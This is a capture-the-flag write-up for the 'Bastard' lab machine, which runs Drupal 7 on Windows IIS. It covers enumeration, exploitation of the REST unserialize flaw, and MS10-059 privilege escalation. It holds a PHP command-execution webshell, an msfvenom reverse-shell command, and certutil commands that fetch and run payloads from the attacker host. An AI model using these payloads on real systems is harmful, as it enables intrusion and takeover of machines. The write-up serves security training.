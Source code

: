 # Enumeration:
Started with an nmap scan to enumerate the box:
```bash
# Nmap 7.92 scan initiated Mon Jul 18 21:08:28 2022 as: nmap -sS -sV -A -p- -oN nmap.txt 10.10.10.9
Nmap scan report for 10.10.10.9
Host is up (0.079s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
|_http-generator: Drupal 7 (http://drupal.org)
|_http-server-header: Microsoft-IIS/7.5
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   78.77 ms 10.10.14.1
2   78.79 ms 10.10.10.9

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jul 18 21:11:24 2022 -- 1 IP address (1 host up) scanned in 177.01 seconds
``` 
</br>

**Initial Shell Vulnerability Exploited:** </br>
Since port 80 was open, I got inside the main page and I could see that it was powered by Drupal: </br>
![main_page](images/bastard/main_page.png) </br>
So I ran a drupal scan using [droopescan](https://github.com/SamJoan/droopescan) tool with the command: ```droopescan scan drupal -u 10.10.10.9``` </br>
![drupal_version](images/bastard/drupal_version.png) </br>
I could see that the drupal version is 7.54 and I found an exploit for that version on [GitHub](https://github.com/PolarisLab/Drupal-Exploit/blob/master/Drupal-Exploit.php). </br>
Before running the exploit, I had to install the PHP-curl package and do some modifications in the exploit
code. </br>
I installed php-curl with this command: ```sudo apt-get install php-curl``` and modified the exploit code: </br>

```bash
$url = 'http://10.10.10.9/';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'test.php',
    'data' => '<?php if(isset($_REQUEST[\'cmd\'])){ echo "<pre>"; $cmd = ($_REQUEST[\'cmd\']); system($cmd); echo "</pre>"; >
];
```
**$url** - To the machine URL (10.10.10.9) </br>
**$endpoint_path** - was at /rest_endpoint before, but it returned 404 Not found, I tried /rest instead and it worked (returned 200). </br>
**'filename'** - will be the name of the file uploaded to the webserver. </br>
**'data'** - I changed it to a one liner [webshell](https://gist.github.com/sente/4dbb2b7bdda2647ba80b) </br>
I ran the exploit: </br>
![shell_upload](images/bastard/shell_upload.png) </br>
And the webshell seemed to work fine:
![webshell_proof](images/bastard/webshell_proof.png) </br>
# Uploading a Reverse Shell:
I used msfvenom to generate a reverse shell on my Kali: </br>
```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.31 LPORT=4242 -f exe > reverse.exe``` </br>
I then downloaded that on the target machine with certutil, using the webshell: </br>

```bash
10.10.10.9/test.php?cmd=certutil -urlcache -split -f "http://10.10.14.31/reverse.exe" reverse.exe
```

Ran the file while listening to port 4242 on my Kali: </br>
![initial_shell_poc](images/bastard/initial_shell_poc.png) </br>
**Vulnerability Explanation:** One of the feature of the module is that one can control the input/output format by changing the
Content-Type/Accept headers.
one of the input formats is: application/vnd.php.serialized, which is the type given to PHP-serialized data,
that means that this module is vulnerable to trivial unserialize() vulnerability.
The unserialize function can result in code being loaded and executed. </br> </br>
**Initial Shell Screenshot:** </br>
![initial_shell_poc2](images/bastard/initial_shell_poc2.png) </br>
# Privilege Escalation:
I used the [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) tool, and found out the machine was vulnerable to MS10-059. </br>
I found an exploit on [GitHub](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059), I downloaded the ```exploit.exe``` file to my Kali machine, </br>
and downloaded on the windows machine, using cerutil (I used the webshell from earlier): </br>
```bash
http://10.10.10.9/test.php?cmd=certutil%20-urlcache%20-split%20-f%20%22http://10.10.14.2/privesc.exe%22%20privesc.exe
``` 
</br>

I used netcat to listen to 1235 port on my Kali Linux: ```nc -nlvp 1235``` , and ran the exploit on the windows machine: ```privesc.exe 10.10.14.2 1234``` </br>
[privesc_exploit](images/bastard/privesc_exploit.png) </br>
[privesc_exploit2](images/bastard/privesc_exploit2.png) </br>

**Vulnerability Explanation:** The Tracing Feature for Services has incorrect ACLs on its registry keys,
which allows local users to gain privileges via vectors involving a named pipe and impersonation, aka
"Tracing Registry Key ACL Vulnerability." </br>
**Proof Of Screenshot:** </br>
[privesc_poc](images/bastard/privesc_poc.png) </br>

